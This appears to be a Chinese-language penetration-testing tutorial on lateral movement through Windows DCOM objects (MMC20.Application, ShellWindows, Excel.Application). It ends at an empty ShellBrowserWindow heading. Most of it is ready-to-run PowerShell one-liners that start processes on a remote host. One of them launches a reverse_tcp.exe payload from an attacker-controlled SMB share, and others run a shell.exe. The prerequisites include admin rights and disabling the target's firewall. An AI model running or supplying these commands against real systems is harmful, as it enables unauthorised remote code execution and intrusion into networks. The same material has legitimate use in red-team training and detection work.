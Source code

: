 目前常利用的 DCOM 组件有：MMC20.Application、ShellWindows、Excel.Application、ShellBrowserWindow 等。

使用 DCOM 在远程主机上面执行命令，需要具有以下条件：

-   **具有管理员权限的 PowerShell**
-   **可能需要关闭目标系统的防火墙。**
-   **在远程主机上执行命令时，必须使用域管的 administrator 账户或者目标主机具有管理员权限的账户**

## [MMC20.Application](#toc_mmc20application)

MMC20.Application 对象的 Document.ActiveView 下存在一个 ExecuteShellCommand 方法，可以用来启动子进程并运行执行的程序或系统命令。

```bash
# 通过 progID 与 DCOM 进行远程交互，并创建 MMC20.Application 对象的示例 
$com =[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.1.131")) 

# 调用 ExecuteShellCommand 方法启动进程，运行攻击载荷 $com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c \\192.168.1.1\mysmb\reverse_tcp.exe", "Minimized") 

# 合并一句话 [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.1.131")).Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c \\192.168.1.1\mysmb\reverse_tcp.exe", "Minimized")
```

## [ShellWindows](#toc_shellwindows)

ShellWindows 组件提供了 Document.Application.ShellExecute 方法，适用于 Windows7 及以上的系统。

```bash
# 通过 PowerShell 与 DCOM 进行远程交互，创建 ShellWindows 对象的实例：
$com=[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.1 .131")) 

# 然后执行如下命令，我们就可以调用该对象的"ShellExecute"方法在远程主机上启动进程：$com.item().Document.Application.ShellExecute("cmd.exe","/c C:\shell.exe","c:\windows\system32",$null,0) 

# 完整的命令：
[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.1.131")).item().Document.Application.ShellExecute("cmd.exe","/c C:\shell.exe","c:\windows\system32",$null,0)
```

### [Excel.Application](#toc_excelapplication)

```bash
# 通过 PowerShell 与 DCOM 进行远程交互，创建 Excel.Application 对象的实例：
$com = [activator]::CreateInstance([type]::GetTypeFromprogID("Excel.Application","192.168.1.131")) 
$com.DisplayAlerts = $false 

# 然后执行如下命令，我们就可以调用该对象的"DDEInitiate"方法在远程主机上启动进程：$com.DDEInitiate("cmd.exe","/c C:\shell.exe")
```

### [ShellBrowserWindow](#toc_shellbrowserwindow)
